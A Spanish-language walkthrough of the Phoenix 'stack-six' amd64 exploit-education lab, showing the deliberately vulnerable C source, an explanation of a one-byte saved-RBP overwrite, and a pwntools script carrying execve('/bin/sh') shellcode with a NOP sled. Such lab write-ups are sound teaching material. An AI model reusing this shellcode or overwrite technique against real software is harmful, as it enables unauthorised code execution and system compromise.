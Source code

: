 # STACK-SIX amd64

Éste nivel presenta el uso de ataques de buffer overflow de 1 byte para redirigir la ejecución.

## CÓDIGO FUENTE

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

Analizando el código que tenemos delante podemos ver que:

* El código lee una variable de entorno llamada **ExploitEducation** y la pasa a la función **greet** en la variable **who**.
* Después copia el mensaje **GREET** al buffer que dice `"Welcome, I am pleased to meet you"`.
* Después chequea el tamaño del input (máximo **127 bytes**).
* Ahora viene el fallo: Copia el input en el **buffer + 34** (longitud de GREET), por tanto, si el tamaño de nuestro input es **127 bytes** (máximo) podemos **sobrescribir 34 bytes** del **stack**.

{% hint style="danger" %}
En total podemos escribir 34 + 127 = 161 bytes.&#x20;

Esto **no es suficiente para sobreescribir la dirección de retorno** pero sí lo es para sobreescribir el byte menos significativo del **RBP** almacenado
{% endhint %}

## EXPLICACIÓN DEL EXPLOIT

Sabemos que el registro RBP se utiliza para restaurar el RSP al final de la función main y después saltar a la dirección de retorno.

Al finalizar main se ejecuta el [epílogo de la función](../../teoria/ensamblador.md#epilogo-de-una-funcion). Se ejecuta la instrucción `leave` y posteriormente la instrucción `ret`.  La instrucción `leave` coge el valor de **RBP** y lo introduce en **RSP** (lo que ignora el **stack frame** de la función que se termina). Después saca el valor de **RBP** del stack. Por último `ret` retorna a la dirección del **RSP**, en este caso, la dirección que nosotros hemos manipulado en el **RBP**.

Por tanto, la idea del **exploit** es modificar **RBP** para apuntar a una dirección donde **RBP+8** sea el inicio de nuestra variable de entorno **ExploitEducation**.

## PREPARANDO EL EXPLOIT

```python
# solve.py
# From https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90' * 20		# some NOP sled is always good :)
buff += shellcode
buff += 'A' * (126 - len(buff))
buff += '\xd0'

print(buff)
```
